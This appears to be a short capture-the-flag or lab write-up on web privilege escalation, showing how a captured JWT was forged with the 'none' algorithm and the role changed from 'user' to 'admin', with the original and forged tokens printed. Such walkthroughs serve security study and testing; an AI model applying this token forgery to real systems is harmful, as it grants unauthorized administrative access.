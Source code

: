 # Web Privilege Escalation Time invasion

Upon logging in with the demo credentials, we received a JWT token in the browser cookies:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzUzMTk2MjYzODgzLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMzguMC4wLjAgU2FmYXJpLzUzNy4zNiBFZGcvMTM4LjAuMC4wIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3NTMxOTYyNjR9.KMUFsIDTnFmyG3nMiGM6H9FNFUROf3wh7SmqJp-QV30
```

We decoded the JWT using https://token.dev and saw that the role field was set to "user".

We exploited a common misconfiguration where the server accepts tokens with the algorithm "none", meaning no signature is required. This allows us to forge a new JWT without knowing the secret key.

- Go to https://token.dev and paste the original JWT.
- Change the algorithm to "none".
- Edit the payload and change "role": "user" to "role": "admin".

The new forged JWT looks like this:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzUzMTk2MjYzODgzLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMzguMC4wLjAgU2FmYXJpLzUzNy4zNiBFZGcvMTM4LjAuMC4wIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzUzMTk2MjY0fQ
```

To apply the token, we edited our browser cookies, replacing the old JWT with our forged one.

!!! Important: We added a trailing dot (.) to signal the end of the token due to the missing signature part:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzUzMTk2MjYzODgzLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMzguMC4wLjAgU2FmYXJpLzUzNy4zNiBFZGcvMTM4LjAuMC4wIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzUzMTk2MjY0fQ.
```
